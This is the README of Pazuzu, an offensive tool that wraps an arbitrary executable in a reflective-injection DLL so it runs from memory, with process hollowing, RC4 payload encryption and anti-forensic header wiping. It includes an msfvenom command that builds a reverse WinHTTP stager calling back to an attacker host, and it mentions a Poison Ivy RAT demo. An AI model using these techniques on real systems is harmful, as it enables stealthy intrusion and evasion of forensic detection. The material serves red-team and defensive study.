 # Pazuzu
Pazuzu is a Python script that allows you to embed a binary within a precompiled DLL which uses reflective DLL injection.
The goal is that you can run your own binary directly from memory. This can be useful in various scenarios. 

For example, if you want to exploit a vulnerability and run your own executable instead of a third party reflective DLL. In this case you just have to choose the stager you like (reverse TCP, HTTP, HTTPS, etc.) and set the DLL generated by Pazuzu. Pazuzu  will execute the binary within the address space of the vulnerable process as long as it has the .reloc section.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/reloc.png "Reloc")

**Restrictions**
 
* Not all binaries can be run from memory. For example, applications which require .NET CLR (managed code) won't be run. I will try to implement this in an upcoming version. By now you can download and run .NET application from disk with the -d option (noisy option).
* If .reloc section is not present the script will use a "process hollowing" approach.
* Support for 32-bit for now.

**How-to**
* The script Pazuzu.py accepts as input the binary you want to run from memory (parameter **-f**). Depending on the properties of the binary Pazuzu will choose one of the 3 DLL currently available. These DLL are:
  1. **reloc­x86.dll**: lets you run the binary inside the address space of the process. This option is the most favorable since the binary generates less "noise" in the system. 
  2. **dforking­x86.dll**: the binary in this case also runs from memory but using "process hollowing". This technique is the one used by the ["execute" command with the -m flag](https://community.rapid7.com/community/metasploit/blog/2012/05/08/eternal-sunshine-of-the-spotless-ram) in Meterpreter.
  3. **download­86.dll**: this is the noisiest option since the binary will be downloaded and executed from disk.

* Pazuzu also provides some additional features. For example, the **-x** option will encrypt the section containing the binary by using a random RC4 key (which is stored in the DLL TimeStamp). In addition, after running it the PE header of the DLL and the binary section will be overwritten with zeros. I will add more anti-forensic techniques in future versions.

**Examples**
* To get the Pazuzu DLL I will use a WinHTTP stager:
```
root@kali:~# msfvenom -p windows/dllinject/reverse_winhttp lhost=192.168.1.44 lport=8080 dll=. -f exe -o Winhttp-stager.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 908 bytes
Saved as: Winhttp-stager.exe
```
Let's run Pazuzu.py with the regshot.exe binary (.section present):

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo1.png "Regshot.exe (.reloc present)")

Let's run it now with the verbose option to see more detailed information:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo2.png "Verbose output")

The next example will use putty.exe which has no reloc section. I have chosen "c:\windows\write.exe" to be "hollowed out" and I have encrypted the binary section with RC4. The hidden option **-m** just run msfvenom with a winhttp dllinject stager.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo3.png "Putty.exe (no .reloc present)")

 Here the Process Explorer ouput:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo3-1.png "Putty.exe (Process Explorer)")

**Video**
* Watch the following video to see a practical example with the Poison Ivy RAT [Video Pazuzu: www.shellsicoming.com] (https://www.youtube.com/watch?v=2OcEbMgQiVo)

**Disclaimer**
* This tool is meant for educational purposes only.
